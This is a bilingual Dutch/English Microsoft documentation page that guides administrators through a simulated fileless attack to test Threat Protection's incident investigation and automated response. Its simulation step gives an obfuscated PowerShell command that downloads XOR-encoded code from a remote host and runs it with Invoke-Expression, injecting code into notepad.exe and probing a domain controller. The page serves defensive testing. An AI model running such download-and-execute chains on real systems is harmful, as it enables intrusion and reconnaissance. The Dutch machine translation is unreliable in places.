


# <a name="run-your-microsoft-threat-protection-attack-simulations"></a><span data-ttu-id="bdbed-104">Simulaties van aanvallen van Microsoft Threat Protection uitvoeren</span><span class="sxs-lookup"><span data-stu-id="bdbed-104">Run your Microsoft Threat Protection attack simulations</span></span>  

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


<span data-ttu-id="bdbed-105">**Van toepassing op:**</span><span class="sxs-lookup"><span data-stu-id="bdbed-105">**Applies to:**</span></span>
- <span data-ttu-id="bdbed-106">Microsoft Threat Protection</span><span class="sxs-lookup"><span data-stu-id="bdbed-106">Microsoft Threat Protection</span></span>
<br>
<table border="0" width="100%" align="center">
  <tr style="text-align:center;">
    <td align="center" style="width:25%; border:0;" >
      <a href= "https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-plan"> 
        
      <br/><span data-ttu-id="bdbed-108">Regeling </a></span><span class="sxs-lookup"><span data-stu-id="bdbed-108">Plan </a></span></span><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/prepare-mtpeval">
        
      <br/><span data-ttu-id="bdbed-110">Ervoor </a></span><span class="sxs-lookup"><span data-stu-id="bdbed-110">Prepare </a></span></span><br>
    </td>
    <td align="center"bgcolor="#d5f5e3">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-simulate">
        
      <br/><span data-ttu-id="bdbed-112">Aanval simuleren </a></span><span class="sxs-lookup"><span data-stu-id="bdbed-112">Simulate attack </a></span></span><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-close">
        
      <br/><span data-ttu-id="bdbed-114">Sluiten en samenvatten </a></span><span class="sxs-lookup"><span data-stu-id="bdbed-114">Close and summarize </a></span></span><br>
    </td>
  </tr>
  <tr>
    <td style="width:25%; border:0;">
   
    </td>
    <td valign="top" style="width:25%; border:0;">
    
</td>
    <td valign="top" style="width:25%; border:0;">

</td>    
    <td valign="top" style="width:25%; border:0;">

</td>
  </tr>
</table>

<span data-ttu-id="bdbed-115">U bevindt zich momenteel in de simulatie fase aanval.</span><span class="sxs-lookup"><span data-stu-id="bdbed-115">You're currently in the attack simulation phase.</span></span>

<span data-ttu-id="bdbed-116">Na het voorbereiden van uw testomgeving, is het tijd om het Microsoft Threat Protection-incidentbeheer en het beleid voor automatisch onderzoek en herstel te testen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-116">After preparing your pilot environment, it’s time to test the Microsoft Threat Protection incident management and automated investigation and remediation capabilities.</span></span> <span data-ttu-id="bdbed-117">We helpen u een verfijnde aanval te simuleren die geavanceerde technieken van detectie van detectie biedt.</span><span class="sxs-lookup"><span data-stu-id="bdbed-117">We'll help you to simulate a sophisticated attack that leverages advanced techniques to hide from detection.</span></span> <span data-ttu-id="bdbed-118">De aanval wordt geopend server bericht blok (SMB)-sessies op domeincontrollers opgesomd en de nieuwste IP-adressen van gebruikers apparaten ophalen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-118">The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users’ devices.</span></span> <span data-ttu-id="bdbed-119">Meestal bevat dit soort aanvallen geen bestanden die op het apparaat van het slachtoffer worden neergezet, ze worden alleen in het geheugen weergegeven.</span><span class="sxs-lookup"><span data-stu-id="bdbed-119">This category of attacks usually doesn’t include files dropped on the victim’s device—they occur solely in memory.</span></span> <span data-ttu-id="bdbed-120">Met behulp van de bestaande systeem-en beheerprogramma's, en de programmacode wordt in systeemprocessen geïnjecteerd om de uitvoering ervan te verbergen, kunnen ze door een dergelijk gedrag evade detectie en persistent maken op het apparaat.</span><span class="sxs-lookup"><span data-stu-id="bdbed-120">They “live off the land” by using existing system and administrative tools and inject their code into system processes to hide their execution, Such behavior allows them to evade detection and persist on the device.</span></span>

<span data-ttu-id="bdbed-121">In deze simulatie begint ons voorbeeldscenario met een PowerShell-script.</span><span class="sxs-lookup"><span data-stu-id="bdbed-121">In this simulation, our sample scenario starts with a PowerShell script.</span></span> <span data-ttu-id="bdbed-122">Een gebruiker kan een script uitvoeren.</span><span class="sxs-lookup"><span data-stu-id="bdbed-122">A user might be tricked into running a script.</span></span> <span data-ttu-id="bdbed-123">Of het script kan vanaf een externe verbinding vanaf een eerder besmet apparaat worden uitgevoerd vanaf een externe verbinding met een andere computer: de aanvaller probeert later te navigeren in het netwerk.</span><span class="sxs-lookup"><span data-stu-id="bdbed-123">Or the script might run from a remote connection to another computer from a previously infected device—the attacker attempting to move laterally in the network.</span></span> <span data-ttu-id="bdbed-124">Detectie van deze scripts kan lastig zijn omdat beheerders vaak scripts ook extern uitvoeren om diverse beheeractiviteiten uit te voeren.</span><span class="sxs-lookup"><span data-stu-id="bdbed-124">Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.</span></span>


<span data-ttu-id="bdbed-126">Tijdens de simulatie injecteert de aanval shellcode in een schijnbaar onschuldige proces.</span><span class="sxs-lookup"><span data-stu-id="bdbed-126">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="bdbed-127">Voor dit scenario is het gebruik van notepad.exe vereist.</span><span class="sxs-lookup"><span data-stu-id="bdbed-127">The scenario requires the use of notepad.exe.</span></span> <span data-ttu-id="bdbed-128">We hebben dit proces voor de simulatie gekozen, maar kwaadwillende gebruikers zouden waarschijnlijk een lang actief systeemproces kunnen bereiken, zoals svchost.exe.</span><span class="sxs-lookup"><span data-stu-id="bdbed-128">We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="bdbed-129">Met de shellcode kunt u contact opnemen met de opdracht van de aanvaller en de controle (C2) om instructies te ontvangen voor het doorvoeren van de gebruikersnaam.</span><span class="sxs-lookup"><span data-stu-id="bdbed-129">The shellcode then goes on to contact the attacker’s command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="bdbed-130">Het script probeert Reconnaissance-query's uit te voeren op de domeincontroller (DC).</span><span class="sxs-lookup"><span data-stu-id="bdbed-130">The script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="bdbed-131">Reconnaissance biedt een kwaadwillende persoon de mogelijkheid informatie te krijgen over recente gebruikers aanmeldinformatie.</span><span class="sxs-lookup"><span data-stu-id="bdbed-131">Reconnaissance allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="bdbed-132">Wanneer hackers deze informatie hebben, kunnen ze later in het netwerk navigeren om naar een specifiek gevoelige account te gaan.</span><span class="sxs-lookup"><span data-stu-id="bdbed-132">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

>[!IMPORTANT]
><span data-ttu-id="bdbed-133">Voor optimale resultaten volgt u de instructies voor de simulatie van een aanval.</span><span class="sxs-lookup"><span data-stu-id="bdbed-133">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>


## <a name="simulation-environment-requirements"></a><span data-ttu-id="bdbed-134">Vereisten voor simulatie omgeving</span><span class="sxs-lookup"><span data-stu-id="bdbed-134">Simulation environment requirements</span></span>

<span data-ttu-id="bdbed-135">Aangezien u de testomgeving al hebt geconfigureerd tijdens de voorbereidende fase, moet u ervoor zorgen dat u twee apparaten hebt voor dit scenario: een testapparaat en een domeincontroller.</span><span class="sxs-lookup"><span data-stu-id="bdbed-135">Since you have already configured your pilot environment during the preparation phase, ensure that you have two devices for this scenario: a test device and a domain controller.</span></span>

1.  <span data-ttu-id="bdbed-136">Controleer of uw Tenant [Microsoft Threat Protection heeft ingeschakeld](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span><span class="sxs-lookup"><span data-stu-id="bdbed-136">Verify your tenant has [enabled Microsoft Threat Microsoft Threat Protection](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span></span>

2.  <span data-ttu-id="bdbed-137">Controleer de configuratie van de domeincontroller voor testen:</span><span class="sxs-lookup"><span data-stu-id="bdbed-137">Verify your test domain controller configuration:</span></span>

    - <span data-ttu-id="bdbed-138">Apparaat wordt uitgevoerd met Windows Server 2008 R2 of een latere versie.</span><span class="sxs-lookup"><span data-stu-id="bdbed-138">Device runs with Windows Server 2008 R2 or a later version.</span></span>
    - <span data-ttu-id="bdbed-139">De test domeincontroller naar [Azure Advanced Threat Protection](https://docs.microsoft.com/azure/security-center/security-center-wdatp) en schakelt [extern beheer](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager)in.</span><span class="sxs-lookup"><span data-stu-id="bdbed-139">The test domain controller to [Azure Advanced Threat Protection](https://docs.microsoft.com/azure/security-center/security-center-wdatp) and enable [remote management](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span></span>    
    - <span data-ttu-id="bdbed-140">Controleer of de [beveiligings integratie van Azure ATP en Microsoft Cloud app](https://docs.microsoft.com/cloud-app-security/aatp-integration) is ingeschakeld.</span><span class="sxs-lookup"><span data-stu-id="bdbed-140">Verify that [Azure ATP and Microsoft Cloud App Security integration](https://docs.microsoft.com/cloud-app-security/aatp-integration) have been enabled.</span></span>
    - <span data-ttu-id="bdbed-141">Een testgebruiker wordt in uw domein gemaakt – geen beheerdersmachtigingen nodig.</span><span class="sxs-lookup"><span data-stu-id="bdbed-141">A test user is created on your domain – no admin permissions needed.</span></span>

3.  <span data-ttu-id="bdbed-142">Controleer de configuratie van de testapparatuur:</span><span class="sxs-lookup"><span data-stu-id="bdbed-142">Verify test device configuration:</span></span>
 
    1.  <span data-ttu-id="bdbed-143">Een apparaat met Windows 10 versie 1903 of een latere versie wordt uitgevoerd.</span><span class="sxs-lookup"><span data-stu-id="bdbed-143">Device runs with Windows 10 version 1903 or a later version.</span></span>
    
    1.  <span data-ttu-id="bdbed-144">Testapparaat is verbonden met het test domein.</span><span class="sxs-lookup"><span data-stu-id="bdbed-144">Test device is joined to the test domain.</span></span>
    
    1.  <span data-ttu-id="bdbed-145">[Schakel Windows Defender antivirus in](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="bdbed-145">[Turn on Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="bdbed-146">Als u problemen ondervindt bij het inschakelen van Windows Defender antivirus, raadpleegt u dit [onderwerp over probleemoplossing](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span><span class="sxs-lookup"><span data-stu-id="bdbed-146">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    
    1.  <span data-ttu-id="bdbed-147">Controleer of het testapparaat is [geboardd naar Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="bdbed-147">Verify that the test device is [onboarded to Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="bdbed-148">Als u een bestaande Tenant gebruikt en apparaatgroepen implementeert, maakt u een speciale apparaatklasse voor het testapparaat en duwt u dit naar het hoogste niveau in de configuratie UX.</span><span class="sxs-lookup"><span data-stu-id="bdbed-148">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>


## <a name="run-the-simulation"></a><span data-ttu-id="bdbed-149">De simulatie uitvoeren</span><span class="sxs-lookup"><span data-stu-id="bdbed-149">Run the simulation</span></span>

<span data-ttu-id="bdbed-150">De simulatie van het aanvalsscenario uitvoeren:</span><span class="sxs-lookup"><span data-stu-id="bdbed-150">To run the attack scenario simulation:</span></span>

1.  <span data-ttu-id="bdbed-151">Meld u aan bij het testapparaat met het gebruikersaccount testen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-151">Log in to the test device with the test user account.</span></span>

2.  <span data-ttu-id="bdbed-152">Open een Windows PowerShell-venster op het testapparaat.</span><span class="sxs-lookup"><span data-stu-id="bdbed-152">Open a Windows PowerShell window on the test device.</span></span>

3.  <span data-ttu-id="bdbed-153">Kopieer het volgende simulatie script:</span><span class="sxs-lookup"><span data-stu-id="bdbed-153">Copy the following simulation script:</span></span>

    ```powershell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
    = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
    -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```
    
    > [!NOTE]
    > <span data-ttu-id="bdbed-154">Als u dit document opent in een webbrowser, kunt u problemen ondervinden met het kopiëren van de volledige tekst zonder dat u bepaalde tekens kwijtraakt of om extra regeleinden te voorkomen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-154">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="bdbed-155">Download dit document en open het in Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="bdbed-155">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="bdbed-156">Plak en voer het gekopieerde script uit wanneer u hierom wordt gevraagd.</span><span class="sxs-lookup"><span data-stu-id="bdbed-156">At the prompt, paste and run the copied script.</span></span>

>[!NOTE]
><span data-ttu-id="bdbed-157">Als u PowerShell uitvoert met Remote Desktop Protocol (RDP), gebruikt u de opdracht Klembord tekst typen in de RDP-client, aangezien de **CTRL-V** -sneltoets of de rechtermuisknop functie mogelijk niet werkt.</span><span class="sxs-lookup"><span data-stu-id="bdbed-157">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span>  <span data-ttu-id="bdbed-158">In recente versies van PowerShell wordt de methode soms ook niet geaccepteerd, u moet mogelijk eerst naar Kladblok kopiëren, dit in de virtuele machine kopiëren en vervolgens in PowerShell plakken.</span><span class="sxs-lookup"><span data-stu-id="bdbed-158">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="bdbed-159">Een paar seconden later <i>notepad.exe</i> wordt geopend.</span><span class="sxs-lookup"><span data-stu-id="bdbed-159">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="bdbed-160">Een gesimuleerde aanvals code wordt in notepad.exe geïnjecteerd.</span><span class="sxs-lookup"><span data-stu-id="bdbed-160">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="bdbed-161">Zorg dat het automatisch gegenereerde Notepad-exemplaar geopend blijft voor het volledige scenario.</span><span class="sxs-lookup"><span data-stu-id="bdbed-161">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="bdbed-162">De gesimuleerde aanvaller probeert met een extern IP-adres te communiceren (de C2-server te simuleren) en probeert vervolgens Reconnaissance te communiceren via de domeincontroller via SMB.</span><span class="sxs-lookup"><span data-stu-id="bdbed-162">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="bdbed-163">U ziet een bericht dat wordt weergegeven op de PowerShell-console wanneer dit script is voltooid.</span><span class="sxs-lookup"><span data-stu-id="bdbed-163">You'll see a message displayed on the PowerShell console when this script completes.</span></span>

```console
ran NetSessionEnum against [DC Name] with return code result 0      
```

<span data-ttu-id="bdbed-164">Als u de functie automatisch incidenten en antwoord in actie wilt zien, moet u de notepad.exe open laten.</span><span class="sxs-lookup"><span data-stu-id="bdbed-164">To see the Automated Incident and Response feature in action, keep the notepad.exe process open.</span></span> <span data-ttu-id="bdbed-165">U ziet een automatisch incident en antwoord stopt het Kladblok proces.</span><span class="sxs-lookup"><span data-stu-id="bdbed-165">You'll see Automated Incident and Response stop the Notepad process.</span></span>


## <a name="investigate-an-incident"></a><span data-ttu-id="bdbed-166">Een incident onderzoeken</span><span class="sxs-lookup"><span data-stu-id="bdbed-166">Investigate an incident</span></span>

>[!NOTE]
><span data-ttu-id="bdbed-167">Bekijk eerst de volgende video om te zien hoe het beheer van uw contactpersonen u helpt bij het onderzoek, waar u deze kunt vinden in de portal, en hoe u het kunt helpen bij het uitvoeren van beveiligingsbewerkingen:</span><span class="sxs-lookup"><span data-stu-id="bdbed-167">Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:</span></span>

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

<span data-ttu-id="bdbed-168">Als u overstapt op het punt van de burger Analyst-weergave, kunt u nu beginnen met het onderzoeken van de aanval in de portal Microsoft 365 Security Center.</span><span class="sxs-lookup"><span data-stu-id="bdbed-168">Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Security Center portal.</span></span> 

1.  <span data-ttu-id="bdbed-169">Open de wachtrij voor incidenten van [Microsoft 365 Security Center](https://security.microsoft.com/incidents) van elk apparaat.</span><span class="sxs-lookup"><span data-stu-id="bdbed-169">Open the [Microsoft 365 Security Center portal](https://security.microsoft.com/incidents) incident queue from any device.</span></span>

2.  <span data-ttu-id="bdbed-170">Ga in het menu naar **incidenten** .</span><span class="sxs-lookup"><span data-stu-id="bdbed-170">Navigate to **Incidents** from the menu.</span></span> 

    

3.  <span data-ttu-id="bdbed-172">Het nieuwe incident voor de gesimuleerde aanval wordt weergegeven in de wachtrij voor incidenten.</span><span class="sxs-lookup"><span data-stu-id="bdbed-172">The new incident for the simulated attack will appear in the incident queue.</span></span>
 
    


### <a name="investigate-the-attack-as-a-single-incident"></a><span data-ttu-id="bdbed-174">Onderzoek een aanval als één incident</span><span class="sxs-lookup"><span data-stu-id="bdbed-174">Investigate the attack as a single incident</span></span>

<span data-ttu-id="bdbed-175">Microsoft Threat Protection verbindt alle gerelateerde waarschuwingen en onderzoek van verschillende producten tot één incident entiteit.</span><span class="sxs-lookup"><span data-stu-id="bdbed-175">Microsoft Threat Protection correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.</span></span> <span data-ttu-id="bdbed-176">Op deze manier laat Microsoft Threat Protection een bredere verhaal vormen, zodat de SOC-analist de ingewikkelde bedreigingen begrijpt en erop kan reageren.</span><span class="sxs-lookup"><span data-stu-id="bdbed-176">By doing so, Microsoft Threat Protection shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.</span></span>

<span data-ttu-id="bdbed-177">De waarschuwingen die zijn gegenereerd tijdens deze simulatie, worden geassocieerd met dezelfde bedreiging, en worden als resultaat automatisch geaggregeerd als één incident.</span><span class="sxs-lookup"><span data-stu-id="bdbed-177">The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.</span></span>

<span data-ttu-id="bdbed-178">Het incident weergeven:</span><span class="sxs-lookup"><span data-stu-id="bdbed-178">To view the incident:</span></span>

1.  <span data-ttu-id="bdbed-179">Ga naar de wachtrij voor **incidenten** .</span><span class="sxs-lookup"><span data-stu-id="bdbed-179">Navigate to the **Incidents** queue.</span></span>
 
    

2.  <span data-ttu-id="bdbed-181">Selecteer het nieuwste item door te klikken op de cirkel die zich links van de naam van het incident bevindt.</span><span class="sxs-lookup"><span data-stu-id="bdbed-181">Select the newest item by clicking on the circle located left of the incident name.</span></span> <span data-ttu-id="bdbed-182">Aan een side panel wordt aanvullende informatie over het incident weergegeven, inclusief alle verwante meldingen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-182">A side panel displays additional information about the incident, including all the related alerts.</span></span> <span data-ttu-id="bdbed-183">Elk incident heeft een unieke naam waarmee dit wordt beschreven op basis van de kenmerken van de meldingen die dit bevat.</span><span class="sxs-lookup"><span data-stu-id="bdbed-183">Each incident has a unique name that describes it based on the attributes of the alerts it includes.</span></span>

    

    <span data-ttu-id="bdbed-185">De waarschuwingen die in het dashboard worden weergegeven, kunt u filteren op basis van servicebronnen: Azure ATP, Microsoft Cloud app Security, Microsoft Defender ATP, Microsoft Threat Protection en Office ATP.</span><span class="sxs-lookup"><span data-stu-id="bdbed-185">The alerts that show in the dashboard can be filtered based on service resources: Azure ATP, Microsoft Cloud App Security, Microsoft Defender ATP, Microsoft Threat Protection, and Office ATP.</span></span>  

3.  <span data-ttu-id="bdbed-186">Selecteer **incident pagina openen** om meer informatie over het incident te weten te komen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-186">Select **Open incident page** to get more information about the incident.</span></span>

    <span data-ttu-id="bdbed-187">Op de pagina **incidenten** ziet u alle meldingen en informatie over het incident.</span><span class="sxs-lookup"><span data-stu-id="bdbed-187">In the **Incident** page, you can see all the alerts and information related to the incident.</span></span> <span data-ttu-id="bdbed-188">De informatie omvat de entiteiten en activa die betrokken zijn bij de waarschuwing, de detectiebron van de waarschuwingen (Azure ATP, EDR), en de reden waarom ze samen met elkaar zijn verbonden.</span><span class="sxs-lookup"><span data-stu-id="bdbed-188">The information includes the entities and assets that are involved in the alert, the detection source of the alerts (Azure ATP, EDR), and the reason they were linked together.</span></span> <span data-ttu-id="bdbed-189">Wanneer u de lijst met incidenten van meldingen controleert, wordt de voortgang van de aanval weergegeven.</span><span class="sxs-lookup"><span data-stu-id="bdbed-189">Reviewing the incident alert list shows the progression of the attack.</span></span> <span data-ttu-id="bdbed-190">In deze weergave kunt u de afzonderlijke waarschuwingen zien en onderzoeken.</span><span class="sxs-lookup"><span data-stu-id="bdbed-190">From this view, you can see and investigate the individual alerts.</span></span>

    <span data-ttu-id="bdbed-191">U kunt ook klikken op **incident beheren** in het menu aan de rechterkant, om het incident te markeren, het aan uzelf toe te wijzen en opmerkingen toe te voegen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-191">You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.</span></span>

    

    


### <a name="review-generated-alerts"></a><span data-ttu-id="bdbed-194">Gegenereerde waarschuwingen controleren</span><span class="sxs-lookup"><span data-stu-id="bdbed-194">Review generated alerts</span></span> 

<span data-ttu-id="bdbed-195">Laten we eens kijken naar enkele waarschuwingen die zijn gegenereerd tijdens de gesimuleerde aanval.</span><span class="sxs-lookup"><span data-stu-id="bdbed-195">Let’s look at some of the alerts generated during the simulated attack.</span></span>

>[!NOTE]
><span data-ttu-id="bdbed-196">We lopen slechts enkele waarschuwingen die zijn gegenereerd tijdens de gesimuleerde aanval.</span><span class="sxs-lookup"><span data-stu-id="bdbed-196">We’ll walk through only a few of the alerts generated during the simulated attack.</span></span> <span data-ttu-id="bdbed-197">Afhankelijk van de versie van Windows en de Microsoft Threat Protection-producten die op uw testapparaat worden uitgevoerd, ziet u mogelijk meer waarschuwingen die in iets anders in een andere volgorde worden weergegeven.</span><span class="sxs-lookup"><span data-stu-id="bdbed-197">Depending on the version of Windows and the Microsoft Threat Protection products running on your test device, you might see more alerts that appear in a slightly different order.</span></span>

 


<span data-ttu-id="bdbed-199">**Waarschuwing: verdacht verdacht proces injectie (Bron: Microsoft Defender ATP EDR)**</span><span class="sxs-lookup"><span data-stu-id="bdbed-199">**Alert: Suspicious process injection observed (Source: Microsoft Defender ATP EDR)**</span></span>

<span data-ttu-id="bdbed-200">Geavanceerde kwaadwillende gebruikers gebruiken verfijnde en verfijnde methoden om in het geheugen te blijven staan en ze te verbergen voor detectie hulpprogramma's.</span><span class="sxs-lookup"><span data-stu-id="bdbed-200">Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.</span></span> <span data-ttu-id="bdbed-201">U kunt zich een gang doen vanuit een vertrouwd systeemproces, in plaats van een schadelijk uitvoerbaar bestand, zodat u het programma moeilijk kunt detecteren en beveiligingsbewerkingen kunt uitvoeren.</span><span class="sxs-lookup"><span data-stu-id="bdbed-201">One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.</span></span>

<span data-ttu-id="bdbed-202">Om ervoor te zorgen dat de technische analisten deze geavanceerde aanvallen kunnen ondervangen, biedt u onze cloudservice met ongeëvenaarde zichtbaarheid in diverse code injectie technieken.</span><span class="sxs-lookup"><span data-stu-id="bdbed-202">To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender ATP provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.</span></span> <span data-ttu-id="bdbed-203">In de volgende afbeelding ziet u hoe Microsoft Defender ATP is gedetecteerd en een melding wordt weergegeven bij het invoeren van code <i>notepad.exe</i>.</span><span class="sxs-lookup"><span data-stu-id="bdbed-203">The following figure shows how Microsoft Defender ATP detected and alerted on the attempt to inject code to <i>notepad.exe</i>.</span></span>

 


<span data-ttu-id="bdbed-205">**Waarschuwing: het onverwachte gedrag van een proces wordt uitgevoerd met geen opdrachtregelargumenten (Bron: Microsoft Defender ATP EDR)**</span><span class="sxs-lookup"><span data-stu-id="bdbed-205">**Alert: Unexpected behavior observed by a process run with no command-line arguments (Source: Microsoft Defender ATP EDR)**</span></span>

<span data-ttu-id="bdbed-206">Microsoft Defender ATP-detecteren vaak richten op het meest voorkomende kenmerk van een aanvalsmethode.</span><span class="sxs-lookup"><span data-stu-id="bdbed-206">Microsoft Defender ATP detections often target the most common attribute of an attack technique.</span></span> <span data-ttu-id="bdbed-207">Deze methode zorgt voor duurzaamheid en veroorzaakt een nieuwe tactiek voor de balk voor hackers.</span><span class="sxs-lookup"><span data-stu-id="bdbed-207">This method ensures durability and raises the bar for attackers to switch to newer tactics.</span></span>

<span data-ttu-id="bdbed-208">We maken gebruik van leer algoritmen voor grootschalige lessen om het normale gedrag van gemeenschappelijke processen binnen een organisatie en wereldwijd te bepalen, en kijken wanneer deze processen afwijkend gedrag tonen.</span><span class="sxs-lookup"><span data-stu-id="bdbed-208">We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes show anomalous behaviors.</span></span> <span data-ttu-id="bdbed-209">Dit anomalie gedrag duidt vaak op dat de programmacode is ingevoerd en wordt uitgevoerd in een ander vertrouwd proces.</span><span class="sxs-lookup"><span data-stu-id="bdbed-209">These anomalous behaviors often indicate that extraneous code was introduced and are running in an otherwise trusted process.</span></span>

